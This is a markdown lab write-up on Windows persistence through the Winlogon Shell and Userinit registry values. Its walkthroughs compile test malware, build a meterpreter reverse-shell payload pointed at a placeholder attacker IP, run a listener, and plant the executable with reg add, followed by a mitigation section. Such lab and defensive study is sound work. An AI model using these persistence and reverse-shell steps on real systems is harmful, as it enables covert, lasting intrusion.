






# Leveraging Registry Keys Utilized by the Winlogon Process
The Winlogon process is a crucial component of the Windows operating system, responsible for several key functions including:

Facilitating user logon and logoff operations
Managing system startup and shutdown procedures
Implementing screen locking functionality.

**The most important registry keys** for this techniques are listed as follows:
```powershell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```

### Key Registry Entries for Winlogon
## 1. HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell

- **Purpose:** This key specifies the default shell used by the operating system. By default, it is set to explorer.exe, which is the Windows graphical user interface.
- **Exploitation:** Attackers can modify this entry to point to a malicious executable. This ensures that the malicious program runs instead of or alongside the normal user interface when the user logs in.


## 2. HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit

- **Purpose:** This key specifies the program that initializes the user environment during the logon process. By default, it is set to userinit.exe.
- **Exploitation:** Attackers can append or replace this entry with a path to their malicious executable. This causes the malicious program to run during the user initialization process, ensuring that it executes every time a user logs in.

## Requirements for Successful Exploitation
- **Local Administrator Privileges:** Modifying these critical registry keys requires local administrator privileges. Attackers must elevate their privileges on the compromised system to make these changes.
- **Persistence:** Once the registry keys are modified, the malicious programs will persist through reboots and logons, making it difficult to detect and remove them.

## Summary
By modifying the Winlogon registry keys (Shell and Userinit), attackers can maintain a persistent foothold on a compromised Windows system. This technique ensures that their malicious programs run during system startup or user logon, leveraging the essential functions of the Winlogon process. However, successfully implementing this strategy requires local administrator privileges, highlighting the importance of securing administrative access and monitoring critical registry changes to detect potential malicious activities.

---
# Example #1
- This example is based on Chapter 3 - Malware Persistence Mechanisms in [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- More explanation by cocomelonc (Zhassulan Zhussupov) can be found in his [blog](https://cocomelonc.github.io/).
## Step 1. Compile `hack.c`
```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

And it looks like this. <br>


## Step 2. Compile `pers.c`
```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Check the registry keys. <br>
```powershell
 reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```


```powershell
.\pers.exe
```


## Step 3. Sign out and Log in again
When you log in, you will see the meow-ware is running there for you. <br>


Check the registry keys again. <br>
```powershell
 reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```

You will see `hack.exe` has been planted as part of `shell` within `Winlogon` process. <br>


## Step 4. Clean up

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe" /f
```




---

# Example #2
This example is based on [Persistence – Winlogon Helper DLL](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/) by Penetration Testing Lab.

## Step 1. Generate a malicious payload
```bash	
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f exe > hack3.exe
```


Open a server for victim's Windows 10 VM to download the malicious payload.<br>
```bash
python -m http.server 8000
```
Make sure you move `hack3.exe` to the folder `C:\Windows\Sytem32`. You can open the `Registry Editor`:<br>


- Press `WIN + R` and type `regedit`. <br>


- Right-click `Start` , then select Run. Type regedit in the Open: box, and then select OK ([How to open Registry Editor in Windows 10](https://support.microsoft.com/en-gb/windows/how-to-open-registry-editor-in-windows-10-deab38e6-91d6-e0aa-4b7c-8878d9e07b11)).<br>

Modify the value in `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit` to includ `hack3.exe`.<br>


The malicious payload will be executed during Windows authentication, establishing a connection.<br>

One more thing I can do it to modify `Logon Script`<br>


## Step 2. Exploit

```bash
sudo msfconsole
```


```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR_IP_ADDR>
set LPORT 4444
exploit
```


or use the commands<br>
```powershell
reg add “HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon” /v Userinit /t REG_SZ /d “C:\Windows\System32\userinit.exe,C:\Windows\System32\hack2.exe” /f

```


# Mitigation
To mitigate the risks associated with unauthorized modifications to the `Winlogon` helper, several key strategies should be considered. These mitigations are designed to both prevent unauthorized changes and to detect any such changes if they occur.

## 1. Restrict User Account Privileges
The primary recommendation is to limit the ability to modify the Winlogon helper to authorized administrators only. This can be achieved through the **Principle of Least Privilege (PoLP)**, which restricts user access rights to the minimum necessary for their job functions. By ensuring that non-administrative users do not have the permissions required to alter critical system settings, the risk of accidental or malicious modifications is significantly reduced .

**Role-Based Access Control (RBAC)** can be used to assign permissions based on job roles, ensuring that only users with specific administrative roles can modify the Winlogon helper settings. Additionally, implementing **Multi-Factor Authentication (MFA)** for administrative accounts adds another layer of security, making it more difficult for attackers to gain unauthorized access even if they obtain a user’s credentials .

## 2. Monitoring and Detection
Monitoring system updates and configuration changes is crucial for detecting unauthorized modifications. Automated monitoring tools should be configured to alert administrators to any changes in system files or settings that could indicate an attempt to establish persistence through the Winlogon helper.

[**Sysinternals Autoruns**](https://learn.microsoft.com/en-us/sysinternals/downloads/autoruns), a tool from Microsoft, is highly effective for this purpose. Autoruns provides a comprehensive view of all programs configured to run at system startup, including those linked to the Winlogon helper. By regularly auditing these entries, administrators can quickly identify and investigate any unauthorized or suspicious changes .

Additionally, **Security Information and Event Management (SIEM)** systems can be employed to aggregate and analyze logs from various sources. SIEM solutions are capable of detecting patterns indicative of malicious activity, providing real-time alerts and enabling a rapid response to potential threats .

## 3. System Hardening
Further mitigating the risk involves hardening the system to prevent unauthorized changes. Group Policy can be used to enforce security settings across all systems in an organization, ensuring that critical components like the Winlogon helper are protected from unauthorized modifications .

Implementing Application Whitelisting ensures that only approved programs can run on the system. This control reduces the risk of unauthorized software being used to modify the Winlogon helper, as only pre-approved applications will have the necessary permissions .

Regular patching and updating of systems is also essential. Keeping both the operating system and third-party applications up-to-date addresses vulnerabilities that could be exploited to modify the Winlogon helper .


---

# References
- Zhassulan Zhussupov (2024)Chapter 3 - Malware Persistence Mechanisms , [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers). Available from: https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers [Accessed 08 August 2024].
- MITRE ATT&CK (2024) [Boot or Logon Autostart Execution: Winlogon Helper DLL](https://attack.mitre.org/techniques/T1547/004/). Available from: https://attack.mitre.org/techniques/T1547/004/ [Accessed 08 August 2024].
- Red Team Notes (2020) [Windows Logon Helper](https://www.ired.team/offensive-security/persistence/windows-logon-helper) (blog). Available from: https://www.ired.team/offensive-security/persistence/windows-logon-helper [Accessed 08 August 2024].
- Hadess (2023) The Art of Windows Persistence (blog). Available from: https://hadess.io/the-art-of-windows-persistence/ [Accessed 08 August 2024].
-Penetration Testing Lab (2020) Persistence – Winlogon Helper DLL (blog). Available from: https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/ [Accessed 08 August 2024].